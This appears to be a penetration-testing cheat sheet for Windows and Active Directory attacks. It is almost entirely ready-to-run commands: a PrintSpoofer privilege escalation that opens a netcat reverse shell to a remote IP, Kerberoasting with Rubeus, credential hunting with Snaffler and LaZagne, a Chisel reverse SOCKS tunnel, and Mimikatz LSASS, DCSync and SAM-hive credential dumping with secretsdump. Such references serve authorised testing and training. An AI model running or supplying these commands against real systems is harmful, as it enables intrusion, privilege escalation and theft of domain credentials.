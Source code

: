 # Tools

### Inveigh.ps1
https://github.com/Kevin-Robertson/Inveigh/blob/master/Inveigh.ps1  
Similar to Responder, for powershell  
PS C:\> Import-Module .\Inveigh.ps1  
PS C:\> (Get-Command Invoke-Inveigh).Parameters  
PS C:\> Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y  


### PowerView.ps1
https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1  
Replacements for various Windows net*  
PS C:\> import-module .\PowerView.ps1  
PS C:\> Get-DomainPolicy  
PS C:\> Get-DomainUser * -spn | select samaccountname  #to extract TGS tickets  


### nc.exe
https://github.com/int0x33/nc.exe/  
netcat Win binary, for port listening and reverse shell  


### printspoofer
To escalate with SeImpersonatePrivilege & SeAssignPrimaryTokenPrivilege  
PrintSpoofer.exe -c "c:\Temp\nc.exe 10.10.10.10 4545 -e cmd"  


### Rubeus
https://github.com/GhostPack/Rubeus  
Kerberoasting from windows machine  
PS C:\> .\Rubeus.exe kerberoast /stats  #to gather some stats  
PS C:\> .\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap  #/nowrap to copy hash easily  
PS C:\> .\Rubeus.exe kerberoast /user:"username" /nowrap  #to test spesific user  
PS C:\> .\Rubeus.exe kerberoast /tgtdeleg /user:"username" /nowrap  #RC4 encryption for a new service ticket  


### SharpHound.exe
https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors  
To gather AD data for Bloodhound  


### Snaffler.exe
https://github.com/SnaffCon/Snaffler  
Credential Enumeration  
PS C:\> .\Snaffler.exe  -d <DomainName> -s -v data  
  

### Chisel
https://github.com/jpillora/chisel  
Pre-compiled Chisel for port-forwarding, both linux and windows  
sudo ./chisel server --reverse -v -p 1234 --socks5  
./chisel.exe client -v 10.10.10.10:1234 R:socks  
  

### Lazagne
https://github.com/AlessandroZ/LaZagne  
checks for passwords in common locations  

  
### Linpeas / Winpeas
Checks for possible priv esc for linux and windows  
  
  
### Mimikatz
https://github.com/ParrotSec/mimikatz  
  
mimikatz # privilege::debug  
mimikatz # sekurlsa::logonpasswords  

#use lsass.DMP and put results to lsass.txt  
#lsass.DMP can be acquired with right click lsass.exe and create dump method from task manager in details  
mimikatz # sekurlsa::minidump lsass.DMP  
mimikatz # log lsass.txt  
mimikatz # sekurlsa::logonPasswords  

#for dcsync abuse  
mimikatz # lsadump::dcsync  
mimikatz # lsadump::dcsync /user:<UserName>  #for spesific user only  


reg save HKLM\SAM sam.h  #to Dump SAM  
reg save HKLM\SYSTEM sys.h  #to Dump SYSTEM  
reg save HKLM\SECURITY sec.h  #to Dump SECURITY  
mimikatz # lsadump::sam sys.h sam.h sec.h  #get hashes from these files with mimikatz  

#secretsdump.py from impacket could also be used  
/usr/lib/python3/dist-packages/impacket/examples/secretsdump.py  # kali location  
python3 secretsdump.py LOCAL -system system.h -sam sam.h -security sec.h  
  
  
  
  
  
  
  
  










